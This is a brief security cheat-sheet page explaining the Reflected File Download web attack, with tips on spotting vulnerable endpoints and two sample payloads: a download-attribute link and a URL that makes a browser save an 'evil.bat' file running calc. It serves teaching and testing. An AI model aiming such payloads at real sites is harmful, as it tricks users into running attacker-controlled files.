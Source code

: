 ## Reflected File Download (RFD)

## Introduction
Reflected File Download (RFD) is web based attack that extends reflected attacks beyond the context of the web browser. Attackers can build malicious URLs which once accessed, download files, and store them with any desired extension, giving a new malicious meaning to reflected input, even if it is properly escaped.

## Where to find
You can detect Reflected File Download (RFD) everywhere but there are 2 things that need to be looked up.
- Finding reflected input (For example: JSONP Callback)
- We can control the filename (there are several requirements that must be met)
  - Make sure that the `Content-Disposition` header does not include the `filename` attribute.
  
    ```
    Content-Disposition: attachment;
    ```

  - If there isn't any `Content-Disposition` header, you can use download attributes in the `<a>` tag. For example, like this:

    ```
    <a download href="https://example/api/?id=1&outputtype=json&callback=||calc||">Press Here</a>
    ```

## How to exploit
1. Basic payload
```
http://example.com/api;/evil.bat;?callback=||calc||
```

"The browser will download the `evil.bat` file, and if you open the `.bat` file, the calculator will pop up.

## References
* [Paper: Reflected File Download a New Web Attack Vector](https://drive.google.com/file/d/0B0KLoHg_gR_XQnV4RVhlNl96MHM/view?resourcekey=0-NV7cTUTB48bltMEddlULLg)
* [Reflected File Download(RFD) Vulnerability. What? How?](https://medium.com/@Johne_Jacob/rfd-reflected-file-download-what-how-6d0e6fdbe331)